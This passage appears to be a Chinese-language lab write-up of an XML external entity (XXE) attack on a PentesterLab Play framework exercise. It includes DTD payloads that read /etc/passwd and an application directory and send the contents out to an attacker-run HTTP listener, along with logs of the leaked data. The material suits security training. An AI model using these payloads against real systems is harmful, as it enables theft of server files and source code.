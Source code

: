 ```
10.211.55.14 - - [21/Apr/2017 11:29:17] code 404, message File not found
10.211.55.14 - - [21/Apr/2017 11:29:17] "GET /test.dtd HTTP/1.1" 404 -
```

注意: burp发出的请求的`Content-Type`必须为: `text/xml`, 而不能是`application/xml`, 猜测是目标服务器限制了解析的xml mime类型。

### 任意文件读取

目标服务器会请求外部实体，那么可以本地写test.dtd, 返回给目标服务器，test.dtd内容如下。

```
<!ENTITY % p1 SYSTEM "file:///etc/passwd">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://10.211.55.2:8000/BLAH?%p1;'>">
%p2;
```

burp再次发生之前的请求，本地服务器能监听到:

```
10.211.55.14 - - [21/Apr/2017 11:54:10] "GET /test.dtd HTTP/1.1" 200 -
10.211.55.14 - - [21/Apr/2017 11:54:10] code 404, message File not found
10.211.55.14 - - [21/Apr/2017 11:54:10] "GET /BLAH?root:x:0:0:root:/root:/bin/sh%0Alp:x:7:7:lp:/var/spool/lpd:/bin/sh%0Anobody:x:65534:65534:nobody:/nonexistent:/bin/false%0Atc:x:1001:50:Linux%20User,,,:/home/tc:/bin/sh%0Apentesterlab:x:1000:50:Linux%20User,,,:/home/pentesterlab:/bin/sh%0Aplay:x:100:65534:Linux%20User,,,:/opt/play-2.1.3/xxe/:/bin/false%0Amysql:x:101:65534:Linux%20User,,,:/home/mysql:/bin/false%0A HTTP/1.1" 404 -
```

显然，成功读取目标服务器`/etc/passwd`文件内容，接着应该去获取`secret_url`, 那么需要知道目标服务器源码文件的内容，从获取的`/etc/passwd`文件内容可以发现用户`play`的路径为`/opt/play-2.1.3/xxe/`, 那么改变test.dtd，读`/opt/play-2.1.3/xxe/`目录:

```
<!ENTITY % p1 SYSTEM "file:///opt/play-2.1.3/xxe/">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://10.211.55.2:8000/BLAH?%p1;'>">
%p2;
```

得到如下内容:

```
10.211.55.14 - - [21/Apr/2017 15:21:24] "GET /BLAH?.gitignore%0A.settings%0Aapp%0Aconf%0Alogs%0Aproject%0Apublic%0AREADME%0ARUNNING_PID%0Atarget%0Atest%0A HTTP/1.1" 404 -

# url decode
.gitignore
.settings
app
conf
logs
project
public
README
RUNNING_PID
target
test
```
